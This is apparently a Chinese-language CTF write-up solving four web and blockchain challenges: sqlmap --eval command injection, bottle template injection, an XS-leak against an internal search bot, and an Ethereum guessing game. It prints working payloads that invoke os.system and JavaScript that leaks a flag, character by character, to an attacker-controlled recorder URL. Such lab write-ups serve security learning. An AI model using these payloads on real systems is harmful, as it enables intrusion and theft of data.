


## sqlmap-master


​	访问环境后发现这是一个sqlmap的web服务，传入127.0.0.1后可见执行了sqlmap命令，尝试输入

```bash
127.0.0.1 && whoami &&
```

​	发现未能注入命令，分析源码。

```python
def generate():
    process = subprocess.Popen(
        command.split(),
        stdout=subprocess.PIPE,
        stderr=subprocess.STDOUT,
        shell=False
    )
```

​	发现执行命令的这个方法，把传入的命令分割了，且`shell=False`，所以这里的`&`不会被当作bash的特殊字符，而会被当作传参传入，所以注入失败了。这里我们就得转变方向了，尝试寻找有没有可能利用sqlmap本身的参数。


​	我们发现这里有一个eval参数可以执行任意的python代码，所以我们可以构造如下参数：

```bash
127.0.0.1 --eval eval("__import__('os').system('echo$IFS$FLAG>>test')")
#因为' '会被作为分隔符，所以需要绕一下，其中，$IFS 替代 ' '
```

​	我们就可以输出$FLAG变量到同目录的test文件中。


​	好的我们现在已经写好了文件，那么我们怎么读取文件？


​	我们可以利用这个参数，他会在文件内容不合法时，将文件的第一行输出出来。

```bash
127.0.0.1 -c test
```


​	我们就得到flag了。

## ez_dash


​	访问环境后发现提示404，我们审计一下源码，发现有两个路由。

```python
def setval(name:str, path:str, value:str)-> Optional[bool]:
    if name.find("__")>=0: return False
    for word in __forbidden_name__:
        if name==word:
            return False
    for word in __forbidden_path__:
        if path.find(word)>=0: return False
    obj=globals()[name]
    try:
        pydash.set_(obj,path,value)
    except:
        return False
    return True

@bottle.post('/setValue')
def set_value():
    name = bottle.request.query.get('name')
    path=bottle.request.json.get('path')
    if not isinstance(path,str):
        return "no"
    if len(name)>6 or len(path)>32:
        return "no"
    value=bottle.request.json.get('value')
    return "yes" if setval(name, path, value) else "no"

@bottle.get('/render')
def render_template():
    path=bottle.request.query.get('path')
    if path.find("{")>=0 or path.find("}")>=0 or path.find(".")>=0:
        return "Hacker"
    return bottle.template(path)
```

​	这里我们发现，`render`路由是存在一个模板注入漏洞的，`setValue`路由可以设置环境变量。对于设置环境变量我没有找到合适的利用方式，因为根据我们分析，如果是通过变量访问的话，需要通过`%`去访问变量，一开始我没想到这个，后来想到了之后直接就通过`getattr`，去获取`system`方法，然后传入参数就可以执行系统命令了。我们构造如下payload：

```python
%getattr(__import__('os'), 's'+'ystem')('echo $FLAG>>test')
```

​	这样我们就可以利用模板注入漏洞执行系统命令了，记得URL编码一下。


​	然后我们把同目录test文件作为模板文件来读取就能读出flag了。这似乎是个非预期解，预期的利用方式我也想不到。

## internal_api

​	

​	进来之后发现是这么搜索页面，旁边有个report URL的功能，我们直接开始分析源码，先分析路由：

```rust
let app = Router::new()
        .route("/", get(route::index))
        .route("/report", post(route::report))
        .route("/search", get(route::public_search))
        .route("/internal/search", get(route::private_search))
        .with_state(Arc::new(pool));
```

​	可见这里有4个路由，其中`/search`就是普通用户的搜索路由，`internal/search`这个路由我们分析源码可以发现这个路由只能由本地的`selenium`服务去访问，`/report`则是向本地的`selenium`服务添加请求的，我们先分析公共的搜索方法：

```rust
pub async fn public_search(
    Query(search): Query<Search>,
    State(pool): State<Arc<DbPool>>,
) -> Result<Json<Vec<String>>, AppError> {
    let pool = pool.clone();
    let conn = pool.get()?;
    let comments = db::search(conn, search.s, false)?;
    if comments.len() > 0 {
        Ok(Json(comments))
    } else {
        Err(anyhow!("No comments found").into())
    }
}
```

​	这就是一个简单调用search查询数据的方法，再分析私有的搜索方法：

```rust
pub async fn private_search(
    Query(search): Query<Search>,
    State(pool): State<Arc<DbPool>>,
    ConnectInfo(addr): ConnectInfo<SocketAddr>,
) -> Result<Json<Vec<String>>, AppError> {
    // 以下两个 if 与题目无关, 你只需要知道: private_search 路由仅有 bot 才能访问
    let bot_ip = tokio::net::lookup_host("bot:4444").await?.next().unwrap();
    if addr.ip() != bot_ip.ip() {
        return Err(anyhow!("only bot can access").into());
    }
    let conn = pool.get()?;
    let comments = db::search(conn, search.s, true)?;
    if comments.len() > 0 {
        Ok(Json(comments))
    } else {
        Err(anyhow!("No comments found").into())
    }
}
```

​	根据注释的描述，这个方法只能由本地的bot也就是`selenium`访问，其余的和公共的search方法是一样的，再分析report方法：

```rust
pub async fn report(Form(report): Form<Report>) -> Json<Value> {
    task::spawn(async move { bot::visit_url(report.url).await.unwrap() });
    Json(json!({
        "message": "bot will visit the url soon"
    }))
}
```

​	可见这里访问的URL是可以指定的，所以这里是可以利用本地`selenium`去访问`/internal/search`这个路由获取到flag。最后我们分析一下search方法：

```rust
pub fn search(conn: DbConn, query: String, hidden: bool) -> anyhow::Result<Vec<String>> {
    let mut stmt =
        conn.prepare("SELECT content FROM comments WHERE content LIKE ? AND hidden = ?")?;
    let comments = stmt
        .query_map(params![format!("%{}%", query), hidden], |row| {
            Ok(row.get(0)?)
        })?
        .collect::<rusqlite::Result<Vec<String>>>()?;
    Ok(comments)
}
```

​	这里我们分析准备的SQL语句，我们要查询flag那么hidden必须是true，仅有`/internal/search`可以获取到，所以我们的思路很明朗了就是利用本地的bot去访问对应的路由。但这里就有一个问题，就是bot访问的结果是不会返回给我们的，所以我们就需要通过XSleak去获取数据，大体流程如下：



​	

​	思路并不难，但是我卡在了区分成功包和失败包，我已经实验过，可以利用bot来访问攻击机，利用JS外带数据。我最后的脚本是：
```javascript
//var chars = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&\'()*+,-./:;<=>?@[\\]^`{|}~ ';
var chars = 'ha';
var charLen = chars.length;
var ENDPOINT = "http://aim-ip:8000/search?s="
var x = document.createElement('iframe');   
function search(leak, charCounter) {
    var curChar = chars[charCounter];
    //Chek if the character is valid
    x.setAttribute("src", 'http://aim-ip:8000/search?s=' + leak + curChar);
    document.body.appendChild(x);
    leak += curChar;
    const iframecount = document.getElementsByTagName('iframe').length;
    console.log(iframecount);
    //When the page inside the iframe is loaded
    x.onload = () => {
    //检查页面中有多少个 iframe，如果有1个或多个，则说明当前枚举的字符是有效的。
        if (iframecount != 0) {
            fetch('http://attack-ip/recorder.php?leak=' + escape(leak), {
                method: "GET",
                mode: "no-cors",
                credentials: "include"
            });
            leak += curChar
        }
        //search(leak, (charCounter + 1) % chars.length);
    }
    x.onerror = () => {
        fetch('http://attack-ip/recorder.php?leak=error', {
                method: "GET",
                mode: "no-cors",
                credentials: "include"
            });
        //search(leak, (charCounter + 1) % chars.length);
    }
}
function exploit() {
    for (var i = 0; i < charLen; i++) {
        search("T", i);
    }
}
exploit();
```

​	这个JS已经能够实现利用CSRF远程访问目标机了，但是不能正确区分正确包和错误包。

#### 后续：

​	根据提供的WP，我改造了一下，得到了下面的payload：

```javascript
// 修改后的异步版本
let flag = 'nctf{';
async function checkError(currentFlag) {
  return new Promise((resolve) => {
    const url = `http://127.0.0.1:8000/internal/search?s=${currentFlag}`;
    const script = document.createElement('script');
    script.src = url;
    script.onload = () => {
      fetch(`http://yourwebhook/recorder.php?leak=${currentFlag}`)
        .finally(() => resolve()); // 确保请求完成才继续
      flag = currentFlag;
    };
    script.onerror = () => resolve(); // 错误时也继续流程
    document.head.appendChild(script);
  });
}
async function bruteForce(curdepth) {
  if(curdepth == 30){
    return;
  }
  const charset = 'abcdefghijklmnopqrstuvwxyz0123456789-}';
  for (const c of charset) {
    const newFlag = flag + c;
    await checkError(newFlag); // 等待当前请求完成
  }
  bruteForce(curdepth+1);
}
// 执行爆破
bruteForce(0);
```

## x1guessgame

​	这道题是区块链的题目，我的思路只能得到hash过后的answer，所以也卡住了。

​	请求包：

```http
POST /rpc HTTP/1.1
Host: 39.106.16.204:18144
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36 Edg/134.0.0.0
Content-Type: application/json
```

​	这里我只列出数据包：

```json
{"jsonrpc": "2.0","method": "eth_getStorageAt","params": ["0x交易hash值","0x0","latest"],"id": 1}
```

​	获取处理结果，提交answer的数据包：

```json
{"jsonrpc": "2.0","method": "eth_sendTransaction","params": [{"from": "0x玩家地址","to": "0x挑战合约地址","gas": "0x1e8480","gasPrice": "0x4e3b29200",
"nonce": "0x最新的nonce值","data": "0x3ef81c38" + "answer_bytes32_hex"}],"id":1
}
```

​	获取answer的hash值：

```json
{"jsonrpc": "2.0","method": "eth_getStorageAt","params": ["0x挑战合约地址","0x0","latest"],"id": 1}
```

​	我的大致攻击流程



​	我就卡在了获取原始answer这里。
